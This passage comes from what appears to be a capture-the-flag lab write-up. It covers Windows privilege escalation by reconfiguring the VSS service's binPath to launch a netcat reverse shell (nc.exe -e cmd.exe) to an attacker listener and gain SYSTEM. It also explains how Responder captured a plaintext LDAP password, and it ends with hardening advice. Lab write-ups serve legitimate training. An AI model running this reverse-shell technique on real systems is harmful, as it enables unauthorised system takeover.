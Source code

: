 ```console
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```

2. Stop service `VSS`, reconfigure it and start service again

```console
*Evil-WinRM* PS C:\programdata> sc.exe stop VSS
...
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binPath="C:\programdata\nc.exe -e cmd.exe 10.10.16.5 6666"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\programdata> sc.exe start VSS
```

```console
└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.48.23] 58519
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Furthermore, this shell is killed 15 seconds around. The measuremen is to spawn another shell to fix this.

## Exploit Chain

port scan: dns, smb, http, kerberos -> http: printer.return.local\svc-printer update with ip -> fill in local ip & responder listener: non-ecrypted credential -> svc-printer priv: under Server Operators group (able to hanlder services) -> sc: stop VSS, reconfigure binPath, start VSS -> system priv

## Beyond Root

### Why Responder Receives Credentials

Responder has captured an LDAP (Lightweight Directory Access Protocol) bind request from a device with IP address 10.129.48.23. This request included a plaintext username (svc-printer) and password (1edFg43012!!). This may have occurred because the device was trying to **connect** to an LDAP server for authentication and was **not using an encryption** method such as SSL/TLS, resulting in the credentials being transmitted over the network in plaintext and intercepted by Responder.

This situation is typically indicative of inadequate security configurations or vulnerabilities on the device because:

- Credentials should not be transmitted in plaintext over the network.
- Devices should be configured to communicate only with trusted servers to avoid sending sensitive information to deceptive services.

To prevent such information leaks, networks should use strong encryption protocols (such as Kerberos or LDAPS with SSL/TLS) and configure appropriate services to guard against response spoofing attacks. In addition, regular security audits and monitoring should be conducted on the network to detect and defend against such attack behavior.
